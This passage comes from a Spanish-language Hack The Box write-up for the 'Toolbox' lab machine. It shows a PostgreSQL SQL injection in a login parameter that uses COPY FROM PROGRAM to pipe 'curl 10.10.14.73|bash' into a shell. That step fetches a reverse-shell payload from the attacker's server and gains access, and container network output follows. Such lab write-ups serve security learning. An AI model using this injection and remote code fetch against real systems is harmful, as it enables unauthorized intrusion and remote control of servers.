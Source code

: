 ```sql
username=admin';COPY cmd_exec FROM PROGRAM 'curl 10.10.14.73|test';-- -;&password=admin
```
Vemos que llega la petición al servidor HTTP

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.96.171 - - [26/Nov/2022 16:35:58] "GET / HTTP/1.1" 200 -
```

Creamos un archivo `index.html` el cual contiene un oneliner para entablar una reverse shell en nuestro equipo, nos ponemos en escucha en el puerto 443 y ejecutamos nuevamente la inyección con el curl con un pipe para que interprete bash

```sql
username=admin';COPY cmd_exec FROM PROGRAM 'curl 10.10.14.73|bash';-- -;&password=admin
```

<img src="/assets/HTB/Toolbox/revshell.png">

Hemos logrado acceso a la máquina víctima

### Escalada Privilegios

* * *

Verificamos con `hostname -I` que nos encontramos dentro de un contenedor

```bash
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 4650  bytes 689344 (673.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3704  bytes 2959735 (2.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 12324  bytes 4250228 (4.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 12324  bytes 4250228 (4.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
